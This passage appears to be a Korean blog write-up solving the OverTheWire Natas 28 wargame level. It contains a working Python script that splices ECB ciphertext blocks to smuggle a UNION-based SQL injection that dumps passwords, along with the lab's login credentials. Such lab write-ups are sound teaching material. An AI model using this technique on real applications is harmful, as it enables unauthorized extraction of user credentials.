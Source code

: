 

<br>
<br>
<br>
<br>
## 자동화 프로그램
---

<br>
<br>
이제 아래의 프로그램을 이용한다.<br>

[이 블로그](https://axcheron.github.io/writeups/otw/natas) 참고해서 썼다.

<br>
<br>


```python
import requests
import base64
import urllib.parse
 
url = "http://natas28.natas.labs.overthewire.org"
auth = ('natas28', '1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj')
s = requests.Session()
s.auth = auth
 
# baseline 쿼리 (공백 10개 → header + footer 확보)
r = s.post(f"{url}/index.php", data={'query': ' ' * 10})
cipher = base64.b64decode(urllib.parse.unquote(r.url.split('=')[1]))
header = cipher[:48]     # 앞의 블록 3개
footer = cipher[48:]     # 뒤의 블록에서 트레일러 추출
 
# SQLi 입력 → 암호문에서 인젝션 블록 추출
payload = " " * 9 + "' UNION ALL SELECT password FROM users;#"
r = s.post(f"{url}/index.php", data={'query': payload})
sqli_cipher = base64.b64decode(urllib.parse.unquote(r.url.split('=')[1]))
 
# SQLi 블록 개수 계산
sqli_blocks = len(payload) - 10
sqli_blocks += (16 - sqli_blocks % 16) if sqli_blocks % 16 else 0
 
# 최종 암호문 조립
final = header + sqli_cipher[48:48 + sqli_blocks] + footer
final_b64 = base64.b64encode(final)
 
# 요청 보내기
r = s.get(f"{url}/search.php", params={'query': final_b64})
print(r.text)
```

<br>
먼저 공백10개를 보내서 처음 3개의 블록과 마지막 블록을 확보하고,<br>
